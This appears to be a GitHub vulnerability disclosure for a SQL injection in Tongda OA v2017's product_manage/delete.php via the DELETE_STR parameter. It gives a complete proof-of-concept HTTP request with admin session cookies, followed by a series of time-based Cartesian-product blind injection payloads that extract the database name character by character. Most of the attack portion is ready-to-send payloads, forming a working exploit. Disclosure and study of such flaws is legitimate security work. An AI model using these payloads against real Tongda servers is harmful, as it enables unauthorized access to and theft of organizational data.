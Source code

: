 SQL injection vulnerability exists in Tongda OA

version:Tongda v2017 version

1.
Route: /general/office_product/product_manage/delete.php
There is an injected parameter: $DELETE_STR
The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/18333199082/cve/assets/66902364/383d24ae-4102-4f26-b6f2-9ae3327ac186)

POC

```
GET /general/office_product/product_manage/delete.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=305dc588; PHPSESSID=gbht77r028h3fv1j9skn5oppr1; OA_USER_ID=admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1

![image](https://github.com/18333199082/cve/assets/66902364/73b0f9fb-ebe6-4f55-8706-a8ddb1227e8c)
Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1

![image](https://github.com/18333199082/cve/assets/66902364/322bc102-fc17-4e5c-a1f1-6438408977aa)

The third digit is the character _
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1

![image](https://github.com/18333199082/cve/assets/66902364/06d67484-daf7-407b-a2a2-d13489da9699)

The fourth digit is the character o
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1

![image](https://github.com/18333199082/cve/assets/66902364/3c8ec1d7-583b-4b2c-8fce-635f8242bc0c)

The fifth digit is the character a
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) and (1)=(1

![image](https://github.com/18333199082/cve/assets/66902364/a24ca818-ea42-47f2-bcde-2fa323fdc4c7)

Then through blind injection, you can determine that the database name is: td_oa

